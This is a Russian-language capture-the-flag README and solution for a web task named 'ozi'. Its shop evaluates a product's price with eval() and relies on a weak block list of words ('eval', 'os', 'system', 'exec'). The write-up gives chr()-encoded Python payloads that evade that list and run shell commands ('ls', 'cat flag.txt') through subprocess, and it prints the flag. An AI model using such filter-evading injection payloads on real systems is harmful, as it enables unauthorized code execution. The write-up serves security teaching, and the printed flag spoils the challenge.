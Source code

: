 # ozi | medium | web  

## Информация  

> ozi — самый маленький стартап на свете. Говорят, его написал всего полчеловека!  
> Я не могу поверить, что он настолько идеально работает!  
> Ты только посмотри, как всё идеально! Ты только попробуй — купи у них что-нибудь.  
>  
> **per instance deploy**  
> http://<ip>:6664  

## Деплой  

Запускаем задачу на сервере с помощью следующей команды:  

```sh
cd deploy
sudo chmod +x deploy.sh
./deploy.sh
```  

## Выдать участникам  

Архив из директории [public/](public/) и IP:PORT per instance deploy.  

## Описание  

На сайте есть функция публикации своего товара. В форме ввода цены проверка выполняется на стороне фронтенда.  
Задача — перехватить запрос создания карточки товара и подменить цену на вредоносный пейлоад.  
Также присутствует блок-лист запрещённых слов: `['.read()', 'eval', 'os', 'system', 'exec']`.  

## Решение  

Зайдя на сайт, видим достаточно простой интерфейс:  

![alt text](./img/image.png)

Пробуем добавить товар в корзину и смотрим, как он считает сумму:  

![alt text](./img/image-1.png)

Далее пытаемся опубликовать свой товар. При вводе вредоносного пейлоада получаем ошибку.  
Смотрим на тип инпута:  

![alt text](./img/image-2.png)  

Обнаруживаем, что можно вводить только цифры. Перехватываем запрос через Burp и подменяем цену.  

Изучаем исходный код страницы и находим функцию подсчёта суммы корзины:  

![alt text](./img/image-3.png)  

Замечаем, что сначала идёт проверка на запрещённые слова, а затем формируется выражение, которое выполняется через `eval()`.  
Ищем список запрещённых слов в файле `ban_words.py`, изучаем его и видим, что можно обойти ограничения с помощью `chr()`, зашифровав наш пейлоад.  

Перехватываем запрос и вставляем следующий пейлоад:  

```python
eval("".join(chr(x) for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 39, 115, 117, 98, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 103, 101, 116, 111, 117, 116, 112, 117, 116, 40, 39, 108, 115, 39, 41]))
```

Этот код эквивалентен следующему:  

```python
__import__('subprocess').getoutput('ls')
```

Вставляем его:  

![alt text](./img/image-4.png) 

Видим, что добавился новый товар. Пробуем добавить его в корзину:  

![alt text](./img/image-5.png) 

Убеждаемся, что всё успешно работает, и получаем список файлов в директории. Теперь можем таким же образом прочитать флаг:  

```python
eval("".join(chr(x) for x in [95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 39, 115, 117, 98, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 103, 101, 116, 111, 117, 116, 112, 117, 116, 40, 39, 99, 97, 116, 32, 102, 108, 97, 103, 46, 116, 120, 116, 39, 41]))  
```

Удаляем старый товар и добавляем новый в корзину:  

![alt text](./img/image-6.png) 

Получаем флаг!  

## Флаг  

`ozonctf{1s_reAl_g00d_Market_bAt_OZON_BEST}`

